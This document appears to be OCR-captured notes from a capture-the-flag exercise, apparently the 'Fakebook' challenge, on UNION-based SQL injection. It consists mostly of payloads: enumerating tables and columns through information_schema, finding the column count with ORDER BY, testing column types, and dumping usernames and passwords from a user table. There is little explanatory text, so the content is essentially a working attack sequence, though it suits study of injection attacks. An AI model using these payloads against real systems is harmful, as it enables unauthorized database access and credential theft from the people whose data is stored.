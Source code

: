 **Try to find table name:\
**\
1 union select table_name from information_schema.tables; \-- -\
[[https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/]{.underline}](https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/)

\-\--\>fakebook

TRY to find column name for tablename "fakebook"\
1 union select concat (column_name, char(44), table_name) from
information_schema.columns;\-- -\
[[https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/]{.underline}](https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/)

1 union select concat(column_name, char(44), table_name) from
information_schema.columns; \-- -\
1 union select concat (table_name, char(44), column_name) from
information_schema.columns\
\
![](media/image5.png){width="6.5in" height="4.069444444444445in"}

Finally:\
1 union select concat(username,char(44),password) from fakebook; \-- -

![](media/image6.png){width="6.5in" height="4.069444444444445in"}

**1 or 1=1 order by 4; \-- -\
\
1 or 1=1 order by 5; \-- -**

> **1 union select null,null,null,null;\-- -**
>
> **??Column types**
>
> **\' union select \'a\',\'b\',null,null;\-- -**
>
> **\' union select \'a\',\'b\','c',null;\-- -**
>
> **\' union select \'a\',\'b\',1,null;\-- -**

4.  Try Find Schema names (eg. PUBLIC )

5.  Try Find Table name (Not always USERS, eg. in Fakebook challenge,
    the table name is FAKEBOOK)

> \' union select \'a\',table_name,1,null from information_schema.tables
> where table_schema=\'public\'\-- -
>
> Back to step 2: \' union select \'a\',schema(),1,null;\-- -

6.  Try Find Column name

> \' union select \'a\',column_name,1,null from
> information_schema.columns where table_name=\'operatives\'\-- -
>
> ![](media/image7.png){width="4.348958880139983in"
> height="3.020110454943132in"}
